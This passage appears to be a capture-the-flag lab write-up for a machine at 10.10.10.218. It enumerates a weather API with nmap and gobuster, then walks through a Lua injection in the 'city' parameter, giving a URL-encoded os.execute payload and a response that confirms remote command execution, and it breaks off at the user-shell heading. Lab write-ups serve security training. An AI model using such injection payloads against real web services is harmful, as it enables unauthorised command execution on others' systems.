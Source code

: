 * From port 80 nmap found a robots.txt file and inside that file there is a disallowed directory path `/weather`
* Port 80 `http://10.10.10.218` through a login prompt
* Port 9001 `http://10.10.10.218` through a login prompt 


## Web_server - Port 80

* **gobuster** inside `/weather` directory -

	`gobuster dir -u http://10.10.10.218/weather/ -w ~/git-tools/SecLists/Discovery/Web-Content/raft-medium-directories.txt -t 40`

	  /forecast (Status: 200)

* **Goto** `http://10.10.10.218/weather/forecast` through an error - 

	  {"code": 200, "message": "No city specified. Use 'city=list' to list available cities."}

* specifying `city=list` in the url and **Goto** `http://10.10.10.218/weather/forecast?city=list` give the list of cities -

	  {"code": 200,"cities": ["London","Manchester","Birmingham","Leeds","Glasgow","Southampton","Liverpool","Newcastle","Nottingham","Sheffield","Bristol","Belfast","Leicester"]}

* specifying the city name from the list `city=London` in the url `http://10.10.10.218/weather/forecast?city=London` give the weather report of the city and the report is same for every city.

* adding single quote `'` in the end `http://10.10.10.218/weather/forecast?city='` through an error

	  <br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value

* Error specified that the backend is running `lua` language.
* try different lua syntax and finely execute lua syntax - 

**Request:** `http://10.10.10.218/weather/forecast?city=%27%29%3Bprint%28%22pwn%22%29--`

**Response:** `{"code": 500,"error": "unknown city: pwn`

  * breakdown the payload - 
    1. payload is url encoded formate
	2. original lua syntax to fil the nill value `');<lua_syntax>--`

* there is a `os.execute` function in the lua that execute shell command from lua syntax.
* create a code execution payload with lua runtime - 

  **Payload:** `');os.execute("id")--`

  **[URL-Enode](https://www.url-encode-decode.com/):** `%27%29%3Bos.execute%28%22id%22%29--`

  **Request:** `http://10.10.10.218/weather/forecast?city=%27%29%3Bos.execute%28%22id%22%29--`

  **Response:** `"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)`

* and this verified the command execution vulnerability.

# User Exploit

## USER:_httpd shell
